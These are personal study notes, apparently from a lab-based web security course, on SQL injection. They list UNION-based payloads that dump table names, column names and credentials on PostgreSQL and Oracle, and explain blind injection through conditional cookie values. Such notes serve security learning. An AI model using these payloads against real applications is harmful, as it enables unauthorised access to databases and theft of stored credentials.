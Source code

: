 example:
![[Pasted image 20240903175913.png]]
`?category=Gifts' UNION SELECT table_name, NULL FROM information_schema.tables--`
`?category=Lifestyle' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_rsrukv'--`
`?category=Lifestyle' UNION SELECT usename, passwd FROM pg_user--`

### Listing the database contents on Oracle
`' UNION SELECT NULL, NULL rom dual--`
`' UNION SELECT 'a', 'a' from dual--`
`' UNION SELECT table_name, 'a' from all_tables--`
`' UNION SELECT column_name, 'a' from all_tab_columns WHERE table_name='USERS_PEMHTR'--`
`' UNION SELECT USERNAME_RGPDEI, PASSWORD_AKDSIW from USERS_PEMHTR--`

## Blind SQL injection 
occurs when an application is vulnerable to SQL injection:
but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.
=>
you can't relay on UNION attacks (bc you can't see the output)

### Triggering conditional responses
Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:
`Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4`

When a request containing a `TrackingId` cookie is processed
=>
the app uses a SQL query to determine whether this is a known user:
`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`

This query:
- is vulnerable to SQL injection
- but the results from the query are not returned to the user.
However: 
the app does behave differently -->  depending on whether the query returns any data
=>
If you submit a recognized `TrackingId`:
the query returns data and you receive a "Welcome back" message in the response.

This behavior is enough to be able to exploit the blind SQL injection vulnerability. 
You can retrieve information:
by triggering different responses conditionally, depending on an injected condition.

To understand how this exploit works:
suppose that two requests are sent containing the following `TrackingId` cookie values in turn:
`…xyz' AND '1'='1 
`…xyz' AND '1'='2`
- The first of these values causes the query to return results
	- because the injected `AND '1'='1` condition is true. 
	- As a result, the "Welcome back" message is displayed.
- The second value causes the query to not return any results
	- because the injected condition is false. 
	- The "Welcome back" message is not displayed
=>
This allows us to:
- determine the answer to any single injected condition
- extract data one piece at a time.
